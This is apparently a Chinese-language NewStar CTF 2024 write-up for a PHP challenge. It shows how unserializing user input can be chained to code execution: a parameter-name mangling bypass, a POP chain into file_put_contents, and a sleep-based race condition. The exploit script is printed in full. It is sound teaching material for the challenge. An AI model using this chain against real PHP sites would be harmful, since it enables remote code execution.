 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 臭皮吹泡泡

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class study
{
    public $study;

    public function __destruct()
    {
        if ($this->study == "happy") {
            echo ($this->study);
        }
    }
}
class ctf
{
    public $ctf;
    public function __tostring()
    {
        if ($this->ctf === "phpinfo") {
            die("u can't do this!!!!!!!");
        }
        ($this->ctf)(1);
        return "can can need";
    }
}
class let_me
{
    public $let_me;
    public $time;
    public function get_flag()
    {
        $runcode="<?php #".$this->let_me."?>";
        $tmpfile="code.php";
        try {
            file_put_contents($tmpfile,$runcode);
            echo ("we need more".$this->time);
            unlink($tmpfile);
        }catch (Exception $e){
            return "no!";
        }

    }
    public function __destruct(){
        echo "study ctf let me happy";
    }
}

class happy
{
    public $sign_in;

    public function __wakeup()
    {
        $str = "sign in ".$this->sign_in." here";
        return $str;
    }
}



$signin = $_GET['new_star[ctf'];
if ($signin) {
    $signin = base64_decode($signin);
    unserialize($signin);
}else{
    echo "你是真正的 CTF New Star 吗？让我看看你的能力";
}
```

在参数传递时，`[` 是非法变量名，会被 PHP 处理成 `_`，这导致我们无法直接传递想要的参数 `new_star[ctf`.

然而，php 这样的处理只会处理一次，在首次处理后不会继续处理随后的违规字符。

因此，当我们传递的参数是 `new[star[ctf` 的时候，php 会处理成 `new_star[ctf`，这样就成功传递了参数。

构建 POP 链的终点是 `let_me` 的 `get_flag()` 函数，这里可以进行文件写入。

```php
$runcode = "<?php #". $this->let_me . "?>";
$tmpfile = "code.php";
try {
    file_put_contents($tmpfile, $runcode); // [!code highlight]
    echo ("we need more" . $this->time);
    unlink($tmpfile);
} catch (Exception $e) {
    return "no!";
}
```

文件前后添加了字符 `<?php #` 和 `?>`，这会把我们写入的 php 代码注释掉，导致不能正常执行。

这里我们可以闭合 php 符号，从而执行 php 代码。

```php
<?php # ?> <?php echo("1");?>
```

这里我们将代码写入文件就会被立刻删除，所以我们需要找一个办法，使得文件存在的时间长一点。注意到：

```php
public $ctf;
public function __tostring()
{
    if ($this->ctf === "phpinfo") {
        die("u can't do this!!!!!!!");
    }

    ($this->ctf)(1); // [!code highlight]
    return "can can need";
}
```

这里可以构造一个 `sleep(1)`，使得文件存在的时间增加 1 秒，这样就可以完成条件竞争。

<Container type='quote'>

出完题目发现可以直接使用 `die(1)`，这样可以直接使得文件不会被删除就退出。
</Container>

构造脚本如下：

```php
<?php
error_reporting(0);
class study {
    public $study;
}
class ctf {
    public $ctf;
}
class let_me {
    public $let_me;
    public $time;
}

class happy {
    public $sign_in;
}
$payload  = new happy();
$payload ->sign_in = new ctf();
$exp = new let_me();
$exp->let_me="?> <?php phpinfo();";
$exp->time=new ctf();
$exp->time->ctf="sleep";
$payload ->sign_in->ctf = array($exp,"get_flag");
echo base64_encode(serialize($payload));
?>
```

发包后快速访问我们写入的 `code.php`，完成 RCE（或者写一个脚本访问，或者 BurpSuite 爆破）

![发包](/assets/images/wp/2024/week5/choupichuipaopao_1.png)

![查看 phpinfo](/assets/images/wp/2024/week5/choupichuipaopao_2.png)
